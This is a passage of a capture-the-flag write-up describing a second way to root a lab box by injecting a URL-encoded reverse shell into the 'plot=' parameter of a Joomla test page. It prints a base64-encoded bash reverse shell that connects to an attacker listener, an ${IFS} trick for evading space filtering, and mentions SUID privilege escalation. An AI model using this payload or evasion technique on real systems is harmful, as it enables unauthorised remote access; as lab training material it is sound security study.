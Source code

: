![root](https://github.com/NTHSec/CTF-Writeups/assets/150489159/43d64d77-ba9a-47dc-ad34-fcedb55aa4d5)

Funny how we completely skipped getting the `stoner` user and we were able to root the box as the low-level user!

If you took my approach and are still looking for the user flag, you can find it in /home/stoner after running a quick ls -la!

# Exploitation (Method 2)

This second exploitation method is using the same command execution as before, but we are injecting a URL encoded reverse shell into the URL. We can do this in 5 steps!

1. base64 encoding our shell:

![base64 shell](https://github.com/NTHSec/CTF-Writeups/assets/150489159/8eb30b9a-c864-4585-a64c-d47de2b24380)

This means our new command looks like this:
```bash
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yLjExMy4yNTQvNDQ0NCAwPiYxCg==" | base64 -d | bash
```

2. Replace spaces with `{IFS%??}` 
    a. Note: the syntax **`${IFS%??}`** is used to manipulate the IFS variable, ensuring that spaces are not included in the command execution. This is particularly important when dealing with commands passed as strings, where spaces might interfere with the intended behavior of the command.

3. Use any [URL Encoder](https://www.urlencoder.org/) to URL encode your script - it should look like this:
   
![url encoder](https://github.com/NTHSec/CTF-Writeups/assets/150489159/d4662c17-d4f2-4ec0-ab18-2fe836d8f7ad)

4. Start your listener:
   
![listener](https://github.com/NTHSec/CTF-Writeups/assets/150489159/ecc2cd2c-9907-4a68-a144-53b370d12ad3)

5. Input your URL encoded script in the `plot=` parameter in the /joomla/_test URL and press enter! And here we have our reverse shell!

![were in!](https://github.com/NTHSec/CTF-Writeups/assets/150489159/6ffc5a0c-55f6-4d74-8e6a-2df12642323a)

From here, you can get root even faster because you don’t even need to bother sshing into a user. You can run linpeas and use the GTFOBins SUID privesc command and get root in the reverse shell!

![root2](https://github.com/NTHSec/CTF-Writeups/assets/150489159/4cd5f8db-0085-4d8a-abcc-b7de044a5814)


Hope everyone has a lovely day! Happy Hacking!
